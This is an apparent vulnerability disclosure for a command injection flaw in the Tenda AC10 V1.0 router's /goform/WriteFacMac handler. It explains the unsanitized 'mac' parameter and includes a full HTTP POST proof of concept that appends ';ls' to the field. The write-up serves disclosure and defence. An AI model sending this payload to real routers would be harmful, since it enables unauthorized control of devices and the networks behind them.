 # Tenda AC10 V1.0 Router Command Injection Vulnerability in WriteFacMac

## Overview
Tenda AC10 V1.0 Router is a consumer-grade wireless router supporting advanced wireless features, firewall, and device management capabilities. A command injection vulnerability exists in the `formWriteFacMac` function, which handles requests to the `/goform/WriteFacMac` endpoint. Attackers can inject arbitrary system commands via the `mac` parameter, leading to unauthorized device control or complete compromise.

## Details
- **Vendor**: Tenda
- **Website**: [https://www.tendacn.com/](https://www.tendacn.com/)
- **Product**: Tenda AC10 V1.0 Router
- **Firmware**: V15.03.06.23_multi_TD01
- **Firmware Download**: [https://www.tenda.com.cn/material/show/2734]
- **Endpoint**: `/goform/WriteFacMac`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description
The `formWriteFacMac` function processes POST requests to `/goform/WriteFacMac`. It extracts the user-controlled `mac` parameter using `websGetVar` and passes it directly to `doSystemCmd` without sanitization. In `doSystemCmd`, the parameter is interpolated into a system command (e.g., `cfm mac %s`) and executed directly on the system. By injecting special characters (e.g., `;`), attackers can escape the command context and execute arbitrary system commands on the router.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)
### PoC: Execute `ls` Command
```
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.xx.xxx
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 24

mac=00:01:02:11:22:33;ls
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
### PoC Result
The above request injects the `ls` command, which lists the root directory contents of the router, demonstrating arbitrary command execution. The response may include a directory listing, confirming the vulnerability.

## Impact
An unauthenticated attacker can exploit this vulnerability to:
- Execute arbitrary system commands.
- Access sensitive files or configurations.
- Gain full control of the router, potentially leading to network compromise.
